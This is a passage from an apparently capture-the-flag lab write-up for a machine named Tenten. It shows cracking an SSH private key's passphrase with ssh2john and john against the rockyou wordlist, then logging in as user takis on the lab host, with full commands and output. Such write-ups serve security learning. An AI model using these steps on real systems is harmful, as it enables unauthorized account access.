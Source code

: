 I’ll use `ssh2john` to create a hash, and crack it with `john`:

```

┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $/usr/share/john/ssh2john.py id_rsa > id_rsa.john
┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $john id_rsa.john --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2020-07-13 19:34) 0.1663g/s 2386Kp/s 2386Kc/s 2386KC/s *7¡Vamos!
Session completed

```

The password is “superpassword”.

### SSH as takis

Given I only have one user name at this point, I’ll try SSH as takis, and it returns a shell:

```

┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $chmod 400 id_rsa
┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $ssh -i id_rsa takis@10.10.10.10
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ECDSA key fingerprint is SHA256:AxKIYOMkqGk3v+ZKgHEM6QcEDw8c8/qi1l0CMNSx8uQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.

Last login: Fri May  5 23:05:36 2017
takis@tenten:~$

```

I can grab `user.txt`:
